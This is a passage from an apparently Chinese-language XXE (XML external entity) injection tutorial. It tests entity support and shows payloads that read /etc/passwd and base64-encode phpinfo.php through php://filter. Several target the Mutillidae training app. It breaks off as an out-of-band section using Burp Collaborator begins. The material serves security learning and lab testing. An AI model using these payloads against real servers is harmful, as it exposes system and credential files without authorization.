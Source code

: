 试一试是否可以添加实体的评论：

```text
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY test "THIS IS A STRING!">
]>
<comment><text>&test;</text></comment>
```

可以的话，试试file：

```text
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<comment><text>&test;</text></comment>
```

### MUTILLIDAE

要获取mutillidae上的文件，要在form表单提交的过程中使用测试的payload：

```text
<?xml version="1.0"?> <!DOCTYPE a
[<!ENTITY TEST SYSTEM "file:///etc/passwd">]
>

<methodCall><methodName>&TEST;</methodName></methodCall>
```

或者把xml版本忽略掉：

```text
<!DOCTYPE a
[<!ENTITY TEST SYSTEM "file:///etc/passwd">]
>

<methodCall><methodName>&TEST;</methodName></methodCall>
```

以及上面提到的php流：

```text
<!DOCTYPE a
[<!ENTITY TEST SYSTEM "php://filter/convert.base64-encode/resource=phpinfo.php">]
>
<methodCall><methodName>&TEST;</methodName></methodCall>
```

### OUT OF BAND

#### 基础测试

1. 使用 burp 的collaborator 然后单击`copy the payload to clipboard`
2. 将下面的code放入xml文件，然后上传：
